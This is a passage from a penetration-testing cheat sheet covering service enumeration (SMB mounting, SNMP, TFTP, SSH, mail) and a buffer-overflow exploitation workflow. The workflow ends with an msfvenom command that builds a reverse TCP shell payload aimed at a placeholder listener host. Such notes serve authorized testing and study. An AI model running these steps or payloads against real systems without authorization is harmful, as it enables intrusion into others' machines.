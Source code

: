 Mount shares

```
mount -t cifs -o user=USERNAME,sec=ntlm,dir_mode=0077 "//10.10.10.10/My Share" /mnt/cifs
```

Can you access shares?

- Directly exploitable MSxx-xxx versions?
  - Worth burning MSF strike?


### SNMP - UDP 169

- Try to enumerate windows shares / network info

Quick test of communities:

```
onesixtyone
```

Full discovery of everything you can:

```
snmp-check
```


### TFTP - UDP 69

- Read / Write access?
  - Pretty much same things as FTP

### SSH - 22

Unless you get a MOTD or a broken sshd version, you are SooL and this is likely just a secondary access point once you break something else.

### Email - 25, 110/995 or 143/993

SMTP, POP3(s) and IMAP(s) are good for enumerating users.

Also: ***CHECK VERSIONS*** and `searchsploit`


## Buffer Overflows

1. Determine length of overflow trigger w/ binary search "A"x1000
2. Determine exact EIP with `pattern_create.rb` & `pattern_offset.rb`
3. Determine badchars to make sure all of your payload is getting through _**(Do not skip this step)**_
4. Develop exploit
  - Is the payload right at ESP 
    - `JMP ESP`
  - Is the payload before ESP 
    - `sub ESP, 200` and then `JMP ESP`
    - or
    - `call [ESP-200]`
5. `msfvenom -a x86 --platform windows/linux -p something/shell/reverse_tcp lhost=x.x.x.x lport=53 -f exe/elf/python/perl/php -o filename`
  - Make sure it fits your payload length above
6. Gain shell, local priv esc or rooted already?
